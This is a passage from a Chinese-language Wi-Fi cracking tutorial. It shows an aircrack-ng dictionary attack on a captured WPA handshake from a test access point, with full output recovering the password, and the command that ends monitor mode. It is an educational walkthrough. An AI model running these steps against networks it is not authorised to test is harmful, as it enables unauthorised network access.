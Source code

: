 发起攻击后，当 `airodump-ng` 成功拿到了握手包，使用 Ctrl-C 退出攻击。

### 7. 使用 aircrack-ng 暴力破解 Wi-Fi 密码

使用命令：`aircrack-ng -w 密码字典 <包含握手包的 cap 文件>`

~~~
netcon@conwlt:~/workspace$ aircrack-ng -w wpa-dictionary/common.txt android-01.cap 
Opening android-01.cap
Read 675 packets.

   #  BSSID              ESSID                     Encryption

   1  22:47:DA:62:2A:F0  AndroidAP                 WPA (1 handshake)

Choosing first network as target.

Opening android-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc4

      [00:00:00] 12/2492 keys tested (828.33 k/s) 

      Time left: 2 seconds                                       0.48%

                          KEY FOUND! [ 1234567890 ]


      Master Key     : A8 70 17 C2 C4 94 12 99 98 4B BB BE 41 23 5C 0D 
                       4A 3D 62 55 85 64 B2 10 11 79 6C 41 1A A2 3B D3 

      Transient Key  : 58 9D 0D 25 26 81 A9 8E A8 24 AB 1F 40 1A D9 ED 
                       EE 10 17 75 F9 F1 01 EE E3 22 A5 09 54 A8 1D E7 
                       28 76 8A 6C 9E FC D3 59 22 B7 82 4E C8 19 62 D9 
                       F3 12 A0 1D E9 A4 7C 4B 85 AF 26 C5 BA 22 42 9A 

      EAPOL HMAC     : 22 C1 BD A7 BB F4 12 A5 92 F6 30 5C F5 D4 EE BE 
~~~

根据以上输出，我们已经破解成功！Wi-Fi 密码是：`1234567890`

### 8. 无线网卡退出监听模式

使用命令：`airmon-ng stop <处于监听模式的无限网卡名称>`

~~~
netcon@conwlt:~/workspace$ sudo airmon-ng stop wlp8s0mon

PHY	Interface	Driver		Chipset

phy0	wlp8s0mon	iwlwifi		Intel Corporation Centrino Wireless-N 2230 (rev c4)

		(mac80211 station mode vif enabled on [phy0]wlp8s0)

		(mac80211 monitor mode vif disabled for [phy0]wlp8s0mon)

~~~
